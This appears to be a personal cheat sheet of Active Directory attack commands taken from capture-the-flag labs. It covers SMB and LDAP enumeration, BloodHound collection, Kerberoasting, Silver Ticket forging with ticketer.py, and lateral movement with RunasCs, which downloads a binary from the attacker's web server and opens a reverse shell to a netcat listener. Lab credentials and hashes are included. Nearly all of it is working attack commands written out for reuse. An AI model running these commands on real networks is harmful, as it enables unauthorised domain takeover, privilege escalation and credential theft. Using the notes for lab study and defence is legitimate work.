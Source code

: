 if creds are valid over smb, but not winrm/rdp, try enum4linux with them:
```
enum4linux -a -u "fmcsorley" -p "CrabSharkJellyfish192" 192.168.199.122
```

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.78.4
```

run bloodhound remotely
```
bloodhound-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'
```

want to move laterally and have low level (like svc) creds, but that user is not in Remote Users group (so cant execute commands remotely ie get winrm shell):
- host RunAsCs.exe on python server to upload:
	- `python -m http.server 80`
- set up listener:
	- `rlwrap -cAr nc -lvnp 6969`
- upload RunAsCs.exe to svc level shell:
	- `powershell -c wget 10.10.14.172/RunasCs.exe -outfile r.exe`
- run RunasCs.exe:
```
.\r.exe C.Bum Tikkycoll_431012284 -r 10.10.14.172:6969 cmd
```
- should create new shell in listener as c.bum
	- c.bum:Tikkycoll_431012284 are creds
	- 10.10.14.172 is tun0 on local machine

if creds are valid, but nxc doesn't show pwned for winrm, run ldeep:
```
ldeep ldap -u tracy.white -p 'zqwj041FGX' -d nara-security.com -s ldap://nara-security.com add_to_group "CN=TRACY WHITE,OU=STAFF,DC=NARA-SECURITY,DC=COM" "CN=REMOTE ACCESS,OU=remote,DC=NARA-SECURITY,DC=COM"
```
- adds user to remote access group, so evil-winrm should work afterward

***Silver Ticket***
have low level creds, check for SID(from `enum4linux` or `lookupsid.py`) and ServicePrincipalName (from `GetUserSPNs.py`) of user to make silver ticket
```
GetUserSPNs.py breach.vl/julia.wong:Computer1 -dc-ip 10.10.10.111 -request
```
- returns ntlmv2 hash (crack with `john`) and ServicePrincipalName like `MSSQLSVC/BREACH.VL:1433` used in `ticketer.py` command below:
```
lookupsid.py breach.vl/julia.wong:computer1@10.10.10.10
```
- copy Domain SID for `ticketer.py` command below
- get nthash from ntlm hash generator from password from https://codebeautify.org/ntlm-hash-generator
	- Trustno1 = 69596C7AA1E8DAEE17F8E78870E25A5C
- - make sure `/etc/hosts` reflects IP for Domain `BREACH.VL`
```
ticketer.py -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
-domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl spn 'MSSQLSVC/BREACH.VL:1433@BREACH.VL' -user-id 500 Administrator
```
- will output "saving ticket in Administrator.ccache"
```
export KRB5CCNAME=/home/kali/Desktop/VulnLab/ldap/Administrator.ccache
```
- caches creds
```
mssqlclient.py breach.vl -k -no-pass -windows-auth
```
